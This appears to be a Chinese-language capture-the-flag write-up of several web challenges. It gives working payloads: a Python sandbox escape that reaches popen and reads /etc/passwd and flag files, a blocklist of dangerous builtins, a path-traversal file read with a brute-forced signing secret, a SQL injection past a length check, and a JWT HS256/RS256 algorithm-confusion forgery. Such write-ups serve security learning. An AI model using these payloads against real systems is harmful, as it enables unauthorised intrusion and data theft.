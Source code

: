 
# web
### outdated
#python_escape 
上传python文件,服务器会执行
```python

blocked = ["__import__", "globals", "locals", "__builtins__", "dir", "eval", "exec",
        "breakpoint", "callable", "classmethod", "compile", "staticmethod", "sys",
        "__importlib__", "delattr", "getattr", "setattr", "hasattr", "sys", "open"]
```


基本上是 #ssti 的思路,感觉没啥问题啊
```python
# ''.__class__.__bases__[0].__subclasses__()[132].__init__['__gl\x6fbals__']['po\x70en']('ls').read()
print([].__class__.__mro__[-1].__subclasses__()[94]("/etc/passwd").read())
```

payload
```python
print("".__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['popen']('cat flag-54f44180-b995-4083-9428-677e827126d5.txt').read())
```

---
```python
print(print.__self__.__loader__().load_module('o' + 's').__dict__['pop'+'en']('cat flag-2fc862c3-cad0-4736-8274-1d805fca98b4.txt').read())
```



在测试黑名单前会调用`clean_comments_and_strings` 函数
`print(.__class__.__bases__[0].__subclasses__()[132].__init__.__globals__[]().read())`
*那为啥globals没匹配到*

`blocked_regex = re.compile(fr'({"|".join(blocked)})(?![a-zA-Z0-9_])')
> 如果"blocked"列表中包含了字符串"eval"，那么正则表达式将匹配以下字符串："eval(", "eval+", "eval\n"等。但是不会匹配"evaluate"或"evaluation"等以"eval"开头但后面跟着字母数字字符的字符串。
### pay_to_win

- 存在任意文件读取
```python
    if payload['user_type'] == 'premium':
        theme_name = request.args.get('theme') or 'static/premium.css'
        return render_template('premium.jinja', theme_to_use=open(theme_name).read())
```

- 爆破密钥
```python
import hashlib
def hash(data):
    return hashlib.sha256(bytes(data, 'utf-8')).hexdigest()


data='eyJ1c2VybmFtZSI6ICJhZG1pbiIsICJ1c2VyX3R5cGUiOiAiYmFzaWMifQ=='

real="1af835e5354b1eabb67dfe7df8818f7377f4c83066de39ad3187fd8035f84cb7"
import random

for i in range(0,2**24):
    if hash(data+hex(i)[2:])==real:
        print(hex(i)[2:])
```

得到密钥`cc1f79`
本目录和根目录都没有flag,随便试了一下读取Dockerfile,提示flag在`/secret-flag-dir/flag.txt`

### ezsql
#nodejs 
```js
app.get('/search', (req, res) => {
    const { name } = req.query;

    if (!name) {
        return res.status(400).send({ err: 'Bad request' });
    }

    if (name.length > 6) { 
        return res.status(400).send({ err: 'Bad request' });
    }

    db.all(`SELECT * FROM jokes WHERE joke LIKE '%${name}%'`, (err, rows) => {
        if (err) {
            console.error(err.message);
            return res.status(500).send('Internal server error');
        }

        return res.send(rows);
    });
});
```
很明显存在sql注入,但是存在长度限制,使用 `?name[]=`绕过去,这样就会获取数组的长度

- 注入得到flag表名
`search?name[]=1' union SELECT 1,name FROM sqlite_master WHERE type = 'table' --+`
- flag
`search?name[]=1' union SELECT 1,* from flag_601bfe49_65f6_4b9a_a142_40b2a3350327 --+`

### back-to-the-past

---

```python
def generate_token(id, username, year):
    return jwt.encode(
        {"id": id, "username": username, "year": year}, private_key, algorithm="RS256"
    )


def verify_token(token):
    try:
        return jwt.decode(token.encode(), public_key, algorithms=["HS256", "RS256"])
    except:
        return None
```

可以看到使用rs256非对称加密,我们只有公钥,如果伪造session需要私钥解密
但是还支持另外一种算法`hs256`,直接修改代码生成

```python
def generate_token(id, username, year):
    return jwt.encode(
        {"id": id, "username": username, "year": year}, public_key, algorithm="HS256"
    )
```



# reverse

# pwn

# crypto

# Misc


---
## *相关wp*




2023-05-27   19:07